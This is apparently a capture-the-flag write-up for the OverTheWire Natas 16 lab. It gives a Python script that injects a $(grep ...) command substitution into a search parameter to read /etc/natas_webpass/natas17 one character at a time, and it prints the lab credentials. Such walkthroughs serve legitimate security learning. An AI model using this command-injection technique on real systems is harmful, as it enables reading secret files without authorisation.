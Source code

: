 I wrote a python script to brute force the password.

```python
import requests
from requests.auth import HTTPBasicAuth

words = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890"

username = "natas16"
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"
url = "http://natas16.natas.labs.overthewire.org/"
natas17_pw = ""

n = 0
while True:
    for ch in words:
        n += 1
        temp_pw = natas17_pw + ch
        print(f"Try {n} times: {temp_pw}")

        payload = f"^$(grep -o ^{temp_pw} /etc/natas_webpass/natas17)A"
        params = {"needle": payload, "submit": "Search"}
        response = requests.get(
            url, auth=HTTPBasicAuth(username, password), params=params
        )

        result = response.text
        start = result.find("<pre>\n") + len("<pre>\n")
        end = result.find("</pre>")
        result_list = [x for x in result[start:end].split("\n")]

        if result_list[0] != "African":
            natas17_pw = temp_pw
            break

    if len(natas17_pw) == 32:
        print("Finish!")
        break
```

> When the current password attempt is correct, the `grep` command will match a result, so that the first search result is not "Africans".

After trying 1048 times, I got the password.

**Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC**
